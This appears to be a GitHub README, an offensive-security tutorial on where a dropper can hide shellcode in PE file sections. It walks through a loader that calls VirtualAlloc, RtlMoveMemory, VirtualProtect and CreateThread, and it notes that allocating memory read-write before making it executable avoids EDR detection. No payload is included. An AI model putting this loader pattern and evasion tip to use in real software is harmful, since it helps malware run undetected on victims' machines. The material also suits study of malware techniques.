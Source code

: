 # DropperResourceSection
where the Dropper is saved in the resource Section


Which sections of the PE we can put our code into


Today Lets try to understand different sections where the malicious payload or we can place the code or shellcode in the PE file.

PE has many sections , but her we would be concentrating on main three sections. Which are ...  

1. .text
2. .data
3. .rsrc

To do that lets create a simple code which helps us to understand more , for this we need visual studio (or gcc compiler being installed and use it to compile and create an exe file to run) and x64dbg
https://x64dbg.com/ to download the x64dbg debugger and installation is simple 

![image](https://github.com/user-attachments/assets/f97d1670-b7cb-4668-ad9d-2ac625eadeb4)

It's just a simple diagram which shows the different sections we would be seeing in the PE file.

so we shall first discuss on steps 
1. what API methods are used to allocate a space in the process memory  
2. move our payload into the virtually allocated memory  
3. Then how to provide the permissions after that we can also see the x64dbg being used to see the payload placement.
4. Create a Threat inside the current Process. 


VirutallAlloc is an API which is defined in Kernel32.dll, which allocates a memory in the process we mention

		void * exec_memory;
		
		LPVOID VirtualAlloc( 		
		  LPVOID lpAddress,                // Starting address from which the allacotion should happen , exmple a memory  
		  SIZE_T dwSize,                  // Size of the memory to be allocated   
		  DWORD  flAllocationType,        // What kind of allocation for the memory to be allocated like MEM_COMMIT, MEM_RESERVE 
		  DWORD  flProtect                // Memory Protection to be allocated PAGE_EXECUTE , PAGE_READWRITE etc 
		  );  


Sample line of code =>  

	exec_memory = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
 
 Here we are allocting the memory from 0 address until payload_len, we are having a allocation type as MEM_COMMIT and MEM_RESERVE and giving the permission as PAGE_READWRITE just to avoid the EDR triggering as suspicious if the allocated memory is given directly as PAGE_EXECUTE  

We can find more detailed information in the link [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

Next API Used is RtlMoveMemory, which is used to copy the payload from Source to Destination

		VOID RtlMoveMemory( 		
		  VOID UNALIGNED *Destination,   // Where to move the memory  
		  const VOID UNALIGNED *Source,   // From where to move the payload 
		  SIZE_T         Length           //size of the payload  
		  );  


Sample line of code =>  

	RtlMoveMemory(exec_memory, payload, payload_len); 
 
Here the payload is moved to address pointed or allocated from the VirtualAlloc API  

We can find more detailed information in the link [RtlMoveMemory](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)

Next API is VirtualProtect, which Changes the protection on a region of committed pages in the virtual address space of the calling process.

		BOOL VirtualProtect(		
		  [in]  LPVOID lpAddress,    // Source address or address to which we need to change the protection or permission  
		  [in]  SIZE_T dwSize,       // Size of the memory to change the protect
		  [in]  DWORD  flNewProtect, // New Protection we apply from the old protection
		  [out] PDWORD lpflOldProtect // A pointer to a variable that receives the previous access protection value, that is initial page 
		  );  

Sample line of code => 

	rv = VirtualProtect(exec_memory, payload_len, PAGE_EXECUTE_READ, &oldprotect);  
 
 the exec_mem which has the payload or pointing to the payload had a protection PAGE_READWRITE initially and now its being changed to PAGE_EXECUTE_READ

We can find more detailed information in the link [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

Next API would be CreateThread, which creates thread in the process 

	HANDLE CreateThread(  
	  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,     // A pointer to a SECURITY_ATTRIBUTES structure that determines whether the returned handle can be inherited by child processes.  
	  [in]            SIZE_T                  dwStackSize,    // The initial size of the stack, in bytes  
	  [in]            LPTHREAD_START_ROUTINE  lpStartAddress, //   This pointer represents the starting address of the thread  
	  [in, optional]  __drv_aliasesMem LPVOID lpParameter,    //  A pointer to a variable to be passed to the thread.  
	  [in]            DWORD                   dwCreationFlags,  // The flags that control the creation of the thread  
	  [out, optional] LPDWORD                 lpThreadId   //  A pointer to a variable that receives the thread identifier  
	);   

Sample line of code => 

	th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_memory, 0, 0, 0); 
 
 LPTHREAD_START_ROUTINE  Points to a function that notifies the host that a thread has started to execute and exec_mem start of payload to start

We can find more detailed information in the link [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
